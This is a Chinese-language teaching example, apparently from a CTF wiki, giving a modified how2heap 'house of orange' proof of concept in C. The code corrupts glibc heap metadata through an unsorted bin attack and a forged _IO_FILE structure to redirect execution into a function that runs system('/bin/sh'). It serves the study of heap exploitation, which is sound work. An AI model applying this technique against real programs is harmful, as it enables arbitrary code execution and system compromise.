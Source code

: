 

#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_finish conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack

    top[0] = ((size_t) &binsh_in_libc + 0x10) & ~1;
    top[7] = ((size_t)&binsh_in_libc); // buf_base

    // house_of_orange conditions
    top[1] = 0x61;
    top[5] = 0x1 ; //_IO_write_ptr
    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t) stdin - 0x33f0 - 0x18;
    top[29] = (size_t) &winner;

    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```


